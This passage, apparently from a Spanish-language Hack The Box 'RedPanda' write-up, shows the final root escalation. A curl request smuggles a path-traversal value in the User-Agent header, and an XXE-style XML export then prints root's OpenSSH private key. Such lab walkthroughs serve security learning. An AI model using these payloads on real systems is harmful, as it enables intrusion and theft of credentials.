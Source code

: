 
```bash
curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/images.jpeg"
```

Finalmente exportar el xml desde /stats para que tome nuestro archivo.


![list](/assets/img/redpanda/Kali-2022-09-01-23-44-05.png){:.lead width="800" height="100" loading="lazy"}


Después de unos segundos si revisamos el xml tendra la id_rsa de root


![list](/assets/img/redpanda/Kali-2022-09-02-12-31-22.png){:.lead width="800" height="100" loading="lazy"}

***

```php
<?xml version="1.0" encoding="UTF-8"?>
<!--?xml version="1.0" ?-->
<!DOCTYPE replace>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/images.jpeg</uri>
    <privesc>
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----
</privesc>
    <views>3</views>
  </image>
  <totalviews>3</totalviews>
</credits>y
```
***
